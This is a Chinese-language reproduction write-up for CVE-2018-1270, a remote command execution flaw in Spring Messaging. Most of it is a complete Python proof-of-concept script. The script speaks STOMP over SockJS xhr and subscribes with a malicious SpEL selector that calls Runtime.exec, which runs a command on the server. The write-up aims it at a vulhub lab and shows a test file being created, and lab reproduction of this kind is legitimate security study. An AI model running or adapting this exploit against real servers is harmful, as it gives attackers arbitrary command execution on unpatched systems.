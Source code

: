 （CVE-2018-1270）Spring Messaging 远程命令执行漏洞
==================================================

一、漏洞简介
------------

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

二、漏洞影响
------------

Spring Java Framework \< 5.0

三、复现过程
------------

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring
messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

1.  用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2.  用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

所以我们可以使用http来复现漏洞，称之为"降维打击"。

我编写了一个简单的POC脚本exploit.py（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1.  基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2.  待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3.  某一个订阅的地址，如vulhub中为：`/topic/greetings`
4.  如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

    CVE-2018-1270.py
    #!/usr/bin/env python3
    import requests
    import random
    import string
    import time
    import threading
    import logging
    import sys
    import json

    logging.basicConfig(stream=sys.stdout, level=logging.INFO)

    def random_str(length):
        letters = string.ascii_lowercase + string.digits
        return ''.join(random.choice(letters) for c in range(length))


    class SockJS(threading.Thread):
        def __init__(self, url, *args, **kwargs):
            super().__init__(*args, **kwargs)
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
            self.daemon = True
            self.session = requests.session()
            self.session.headers = {
                'Referer': url,
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
            }
            self.t = int(time.time()*1000)

        def run(self):
            url = f'{self.base}/htmlfile?c=_jp.vulhub'
            response = self.session.get(url, stream=True)
            for line in response.iter_lines():
                time.sleep(0.5)
        
        def send(self, command, headers, body=''):
            data = [command.upper(), '\n']

            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
            
            data.append('\n\n')
            data.append(body)
            data.append('\x00')
            data = json.dumps([''.join(data)])

            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
            if response.status_code != 204:
                logging.info(f"send '{command}' data error.")
            else:
                logging.info(f"send '{command}' data success.")

        def __del__(self):
            self.session.close()


    sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
        'id': 'sub-0',
        'destination': '/topic/greetings'
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': '/app/hello'
    }, data)

执行：

![1.png](./resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId26.png)

进入容器`docker-compose exec spring bash`，可见`/tmp/success`已成功创建：

![2.png](./resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId27.png)

